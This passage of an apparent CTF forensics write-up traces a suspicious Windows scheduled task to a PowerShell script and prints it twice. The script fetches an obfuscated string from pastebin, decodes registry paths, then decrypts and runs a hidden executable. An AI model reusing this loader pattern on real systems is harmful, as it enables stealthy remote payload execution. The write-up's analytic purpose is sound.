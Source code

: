 ```shell
drwxrwxrwx  2 root root 4.0K Apr  2 04:49 '3D Objects'
drwxrwxrwx  3 root root 4.0K Sep  1 12:51  AppData
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Contacts
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Desktop
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Documents
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Downloads
drwxrwxrwx  3 root root 4.0K Apr  2 04:50  Favorites
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Links
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Music
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  OneDrive
drwxrwxrwx  4 root root 4.0K Apr  2 04:50  Pictures
drwxrwxrwx  2 root root 4.0K Apr  2 04:50 'Saved Games'
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Searches
drwxrwxrwx  2 root root 4.0K Apr  2 04:50  Videos
```

Ok so looks like a scheduled task log, a registry hive from a Windows machine exported to JSON and a export of an operator's Windows machine home folder.

Since the clue mentions the scheduled task in April 2021 I decided to start there first and loaded the CSV file into Google Sheets and filtered the `Last Run Time` field to April 2021 entries. 99% of the stuff was standard Windows background noise but one task stood out. Mainly because it was called `Lights Off` and was the only task created by a named user `AP-G-DIST-57\Tyrell`

![lights out task](/imgages/2021/csaw/tripping1.PNG)

This log entry also named the `Task To Run` and this field was set to `Powershell.exe -ExecutionPolicy Bypass %temp%\wcr_flail.ps1`

I set about finding this script which thankfully did exist in the snapshot we had. It contained a Powershell script as expected.

```shell
$ find . -name wcr_flail.ps1
./operator/AppData/Local/Temp/wcr_flail.ps1
$ cat ./operator/AppData/Local/Temp/wcr_flail.ps1
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP)); $E=(Get-ItemProperty -Path $SLPH -Name Blast)."Blast";$TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR)); $D= (Get-ItemProperty -Path $BRN -Name Off)."Off";openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe";C:\1\fate.exe;
```

If we do some basic cleanup its pretty clear what we're doing here:

```powershell
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");

$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP)); 

$E=(Get-ItemProperty -Path $SLPH -Name Blast)."Blast";

$TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");

$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR)); 

$D= (Get-ItemProperty -Path $BRN -Name Off)."Off";

openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe"
```